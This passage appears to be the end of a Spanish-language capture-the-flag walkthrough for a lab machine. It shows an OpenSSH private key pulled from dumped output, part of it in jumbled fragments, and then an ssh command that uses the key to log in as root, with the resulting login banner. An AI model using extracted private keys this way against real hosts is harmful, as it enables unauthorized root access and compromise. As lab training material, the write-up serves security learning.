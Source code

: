 ```bash
        Kt+Rx9peAx7dEfTHNvfdauGJL6k3QyGo+90nQDripDIUPvE0sac1tFLrfvJHYHsYiS7hLM                                                                                                               
        dFu1uEJvusaIbslVQqpAqgX5Ht75rd0BZytTC9Dx3b71YYSdoAAADBANMZ5ELPuRUDb0Gh                                                                                                               
        mXSlMvZVJEvlBISUVNM2YC+6hxh2Mc/0Szh0060qZv9ub3DXCDXMrwR5o6mdKv/kshpaD4                                                                                                               
        Ml+fjgTzmOo/kTaWpKWcHmSrlCiMi1YqWUM6k9OCfr7UTTd7/uqkiYfLdCJGoWkehGGxep                                                                                                               
        lJpUUj34t0PD8eMFnlfV8oomTvruqx0wWp6EmiyT9zjs2vJ3zapp2HWuaSdv7s2aF3gibc                                                                                                               
        z04JxGYCePRKTBy/kth9VFsAJ3eQezpwAAAMEAwaLVktNNw+sG/Erdgt1i9/vttCwVVhw9                                                                                                               
        RaWN522KKCFg9W06leSBX7HyWL4a7r21aLhglXkeGEf3bH1V4nOE3f+5mU8S1bhleY5hP9                                                                                                               
        6urLSMt27NdCStYBvTEzhB86nRJr9ezPmQuExZG7ixTfWrmmGeCXGZt7KIyaT5/VZ1W7Pl                                                                                                               
        xhDYPO15YxLBhWJ0J3G9v6SN/YH3UYj47i4s0zk6JZMnVGTfCwXOxLgL/w5WJMelDW+l3k                                                                                                               
        fO8ebYddyVz4w9AAAADnJvb3RAbG9jYWxob3N0AQIDBA==                                                                                                                                       
        -----END OPENSSH PRIVATE KEY-----
|3,1,0,1,38,0,1633544227,"-----BEGIN OPENSSH PRIVATE KEY-----","b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn","NhAAAAAwEAAQAAAYEAn6zLlm7QOGGZytUCO3SNpR5vdDfxNzlfkU
w4nMw/hFlpRPaKRbi3","KUZsBKygoOvzmhzWYcs413UDJqUMWs+o9Oweq0viwQ1QJmVwzvqFjFNSxzXEVojmoCePw+","7wNrxitkPrmuViWPGQCotBDCZmn4WNbNT0kcsfA+b4xB+am6tyDthqjfPJngROf0Z26lA1","xw0OmoCdyhvQ3azlbkZZ7E
WeTtQ/EYcdYofa8/mbQ+amOb9YaqWGiBai69w0Hzf06lB8cx",>72
|<"8G+KbGPcN174a666dRwDFmbrd9nc9E2YGn5aUfMkvbaJoqdHRHGCN1rI78J7rPRaTC8aTu","BKexPVVXhBO6+e1htuO31rHMTHABt4+6K4wv7YvmXz3Ax4HIScfopVl7futnEaJPfHBdg2","5yXbi8lafKAGQHLZjD9vsyEi5wqoVOYalTXEXZwO
rstp3Y93VKx4kGGBqovBKMtlRaic+Y","Tv0vTW3fis9d7aMqLpuuFMEHxTQPyor3+/aEHiLLAAAFiMxy1SzMctUsAAAAB3NzaC1yc2","EAAAGBAJ+sy5Zu0DhhmcrVAjt0jaUeb3Q38Tc5X5FMOJzMP4RZaUT2ikW4tylGbASsoKDr","85oc1mHLON
d1AyalDFrPqPTsHqtL4sENUCZlcM76hYxTUsc1xFaI5qAnj8Pu8Da8YrZD65",>72
|<"rlYljxkAqLQQwmZp+FjWzU9JHLHwPm+MQfmpurcg7Yao3zyZ4ETn9GdupQNccNDpqAncob","0N2s5W5GWexFnk7UPxGHHWKH2vP5m0Pmpjm/WGqlhogWouvcNB839OpQfHMfBvimxj3Dde","+GuuunUcAxZm63fZ3PRNmBp+WlHzJL22iaKnR0Rx
gjdayO/Ce6z0WkwvGk7gSnsT1VV4QT","uvntYbbjt9axzExwAbePuiuML+2L5l89wMeByEnH6KVZe37rZxGiT3xwXYNucl24vJWnyg","BkBy2Yw/b7MhIucKqFTmGpU1xF2cDq7Lad2Pd1SseJBhgaqLwSjLZUWonPmE79L01t34rP","Xe2jKi6brh
TBB8U0D8qK9/v2hB4iywAAAAMBAAEAAAGAGkWVDcBX1B8C7eOURXIM6DEUx3",>72
```

Vemos una clave privada de SSH vamos a copiarla y intentemos conectarnos con ella.

```bash
❯ ssh -i id_rsa2 root@10.10.11.120
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 05 Mar 2023 12:11:32 PM UTC

  System load:           0.0
  Usage of /:            52.7% of 8.79GB
  Memory usage:          17%
  Swap usage:            0%
  Processes:             218
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.120
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f144


0 updates can be applied immediately.


The list of available updates is more than a week old.
```